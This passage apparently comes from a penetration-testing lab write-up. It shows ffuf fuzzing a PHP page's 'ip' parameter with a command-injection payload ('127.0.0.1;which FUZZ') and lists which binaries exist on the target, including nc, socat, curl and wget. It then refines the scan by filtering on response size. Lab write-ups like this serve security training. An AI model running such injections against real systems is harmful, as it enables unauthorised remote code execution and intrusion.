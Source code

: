 ```bash
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ
 :: Wordlist         : FUZZ: /home/x7331/web200/capability_checks_linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

java                 [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 4118ms]
perl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4119ms]
ip                   [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 4119ms]
python               [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 4119ms]
php                  [Status: 200, Size: 510, Words: 59, Lines: 12, Duration: 4120ms]
hostname             [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4120ms]
fetch                [Status: 200, Size: 492, Words: 59, Lines: 11, Duration: 4148ms]
ss                   [Status: 200, Size: 492, Words: 59, Lines: 11, Duration: 4148ms]
gcc                  [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4149ms]
ifconfig             [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 4149ms]
python3              [Status: 200, Size: 508, Words: 59, Lines: 12, Duration: 4276ms]
socat                [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 5268ms]
cc                   [Status: 200, Size: 503, Words: 59, Lines: 12, Duration: 5297ms]
nc                   [Status: 200, Size: 499, Words: 59, Lines: 12, Duration: 6259ms]
wget                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6259ms]
ping                 [Status: 200, Size: 501, Words: 59, Lines: 12, Duration: 6291ms]
curl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6291ms]
w00tw00t             [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 7282ms]
```
{% endcode %}

Based on the above results, the response `491` can be filtered out.

{% code overflow="wrap" %}
```bash
$ ffuf -u "http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ" -w capability_checks_linux.txt -c -fs 491

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ
 :: Wordlist         : FUZZ: /home/x7331/web200/capability_checks_linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```

[^1]: Remote Code Execution